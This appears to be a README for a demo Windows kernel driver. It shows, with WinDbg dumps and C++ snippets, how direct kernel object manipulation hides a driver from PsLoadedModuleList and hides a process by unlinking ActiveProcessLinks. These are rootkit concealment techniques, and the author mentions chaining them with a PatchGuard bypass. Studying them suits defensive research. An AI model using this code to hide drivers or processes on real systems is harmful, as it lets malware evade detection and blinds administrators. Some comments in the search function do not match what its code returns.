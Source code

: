 # Windows DKOM Demo

This is an implementation of a simple driver which modifies kernel data structures to remove itself from the `PsLoadedModuleList` structure. Disclaimer: PG protects against this. Weaponizanble by chaining with a PG bypass.

---

`PsLoadedModuleList`  is a global kernel object of type `_KLDR_DATA_TABLE_ENTRY`. It is the list head of a circular linked-list containing the loaded modules on the system. Example:

```
2: kd> ?PsLoadedModuleList
Evaluate expression: -8773737086640 = fffff805`34848150
2: kd> dt poi(fffff805`34848150) _KLDR_DATA_TABLE_ENTRY
DKOM_Demo!_KLDR_DATA_TABLE_ENTRY
   +0x000 InLoadOrderLinks : _LIST_ENTRY [ 0xffffd78d`4ee49340 - 0xfffff805`34848150 ]
   +0x010 ExceptionTable   : 0xfffff805`34911000 Void
   +0x018 ExceptionTableSize : 0x5e38c
   +0x020 GpValue          : (null) 
   +0x028 NonPagedDebugInfo : (null) 
   +0x030 DllBase          : 0xfffff805`34400000 Void
   +0x038 EntryPoint       : 0xfffff805`34997010 Void
   +0x040 SizeOfImage      : 0xab7000
   +0x048 FullDllName      : _UNICODE_STRING "\SystemRoot\system32\ntoskrnl.exe"
   +0x058 BaseDllName      : _UNICODE_STRING "ntoskrnl.exe"
   +0x068 Flags            : 0x8804000
   +0x06c LoadCount        : 0x8f
   +0x06e __Unused5        : 0x10
   +0x070 SectionPointer   : (null) 
   +0x078 CheckSum         : 0x979256
   +0x080 LoadedImports    : (null) 
   +0x088 PatchInformation : 0x00000000`00000001 Void
```

We can see that at information about the entry is offset to the actual `LIST_ENTRY` structure, which holds the addresses of the next and previous `_KLDR_DATA_TABLE_ENTRY` structures. If you're not familiar, `LIST_ENTRY` looks like this:

```
2: kd> dt _List_entry
ntdll!_LIST_ENTRY
   +0x000 Flink            : Ptr64 _LIST_ENTRY
   +0x008 Blink            : Ptr64 _LIST_ENTRY
```

As it turns out, each driver has access to it's `KLDR_DATA_TABLE_ENTRY` structure by its `DriverObject->DriverSection` member at offset `0x28`. Just for completeness' sake, the `DRIVER_OBJECT` structure looks like this:

```
2: kd> dt PDRIVER_OBJECT
DKOM_Demo!PDRIVER_OBJECT
Ptr64    +0x000 Type             : Int2B
   +0x002 Size             : Int2B
   +0x008 DeviceObject     : Ptr64 _DEVICE_OBJECT
   +0x010 Flags            : Uint4B
   +0x018 DriverStart      : Ptr64 Void
   +0x020 DriverSize       : Uint4B
   +0x028 DriverSection    : Ptr64 Void    //KLDR_DATA_TABLE_ENTRY            
   +0x030 DriverExtension  : Ptr64 _DRIVER_EXTENSION
   +0x038 DriverName       : _UNICODE_STRING
   +0x048 HardwareDatabase : Ptr64 _UNICODE_STRING
   +0x050 FastIoDispatch   : Ptr64 _FAST_IO_DISPATCH
   +0x058 DriverInit       : Ptr64     long 
   +0x060 DriverStartIo    : Ptr64     void 
   +0x068 DriverUnload     : Ptr64     void 
   +0x070 MajorFunction    : [28] Ptr64     long 
```

As such, one can simply access and traverse `PsLoadedModuleList` using this member of `DRIVER_OBJECT`. Additionally, directly hiding a module from the list is as simple as relinking the `LIST_ENTRY` structures surrounding the driver's:

```c++
PLIST_ENTRY PrevModule = ThisModule->Blink;
PLIST_ENTRY NextModule = ThisModule->Flink;

// Replace PrevModule Flink with NextModule's address;
PrevModule->Flink = NextModule;
// Replace NextModule Blink with PrevModule's address
NextModule->Blink = PrevModule;

// point target process to itself
ThisModule->Flink = ThisModule;
ThisModule->Blink = ThisModule;
```

And since you have access to the driver `KLDR_DATA_TABLE_ENTRY`, you can check your work:

```c++
NTSTATUS FindKernelModule(_In_ PDRIVER_OBJECT DriverObject, _In_ PUNICODE_STRING DriverName) {
	// Logic can be similarly used for finding the PsLoadedModuleList head. ntoskrnl.exe is always the head
	PKLDR_DATA_TABLE_ENTRY pThisModule = (PKLDR_DATA_TABLE_ENTRY)DriverObject->DriverSection;
	PLIST_ENTRY KModEntry = { nullptr };
	PLIST_ENTRY FirstEntry = pThisModule->InLoadOrderLinks.Flink;

	// https://m0uk4.gitbook.io/notebooks/mouka/windowsinternal/find-kernel-module-address-todo
	// Loop over the circular linked-list
	for (PLIST_ENTRY pListEntry = pThisModule->InLoadOrderLinks.Flink;
		(pListEntry != &pThisModule->InLoadOrderLinks) &
		(pThisModule->InLoadOrderLinks.Flink != FirstEntry);
		pListEntry = pListEntry->Flink)
	{
		// Search for the driver you're trying to hide
		PKLDR_DATA_TABLE_ENTRY pEntry = CONTAINING_RECORD(
			pListEntry, KLDR_DATA_TABLE_ENTRY, InLoadOrderLinks);

		if (RtlEqualUnicodeString(DriverName, &pEntry->BaseDllName, true)) {
			// oops, you found it. 
			KModEntry = pListEntry;
			return STATUS_SUCCESS;
		}
	}

    // module was unlinked successfully
	return STATUS_UNSUCCESSFUL;
}
```

This same type of unlinking behavior can be used to hide a process. In kernel mode, a process can be looked up by its ID using `PsLookupProcessByProcessId`:

```c++
// turn the PID into an EPROCESS pointer
PEPROCESS Process;
status = PsLookupProcessByProcessId((HANDLE)data->pid, &Process);
if (!NT_SUCCESS(status))
	break;
```

Where PEPROCESS represent a pointer to an EPROCESS structure like this:
```
2: kd> dt _EPROCESS
ntdll!_EPROCESS
   +0x000 Pcb              : _KPROCESS
   +0x2e0 ProcessLock      : _EX_PUSH_LOCK
   +0x2e8 UniqueProcessId  : Ptr64 Void
   +0x2f0 ActiveProcessLinks : _LIST_ENTRY
   +0x300 RundownProtect   : _EX_RUNDOWN_REF
   +0x308 Flags2           : Uint4B
... (truncated
```

With a pointer to the target process's EPROCESS structure in hand, it can be scanned for the `ActiveProcessLinks` member. Once this member is found, hiding the process is the exact same for hiding a driver process:

```c++
// get the ActiveProcesLinks address
auto CurrentListEntry = (PLIST_ENTRY)((PUCHAR)Process + offset);

auto PrevListEntry = CurrentListEntry->Blink;
auto NextListEntry = CurrentListEntry->Flink;

// unlink the target process
PrevListEntry->Flink = NextListEntry;
NextListEntry->Blink = PrevListEntry;

// point target process to itself
CurrentListEntry->Flink = CurrentListEntry;
CurrentListEntry->Blink = CurrentListEntry;
```
On Windows 10 1901 build 18363, the `ActiveProcessLinks` member is located at offset 0x2f0. This offset changes between builds.

The full source for an example driver can be found [here](https://github.com/joshfinley/DKOM_Demo).

Of course, none of this is anything new: 

## References
- [blackbone implementation to find PsLoadedModuleList](https://github.com/DarthTon/Blackbone/blob/master/src/BlackBoneDrv/Loader.c)
- [all sorts of ways of finding module addresses](https://m0uk4.gitbook.io/notebooks/mouka/windowsinternal/find-kernel-module-address-todo)
- [another implementation of the same driver hiding functionality](https://vxug.fakedoma.in/papers/Hiding%20loaded%20driver%20with%20DKOM%20.txt)
- [the reference implementation for the process hiding functionality](https://vxug.fakedoma.in/papers/Hide%20process%20with%20DKOM%20without%20hardcoded%20offsets.txt)
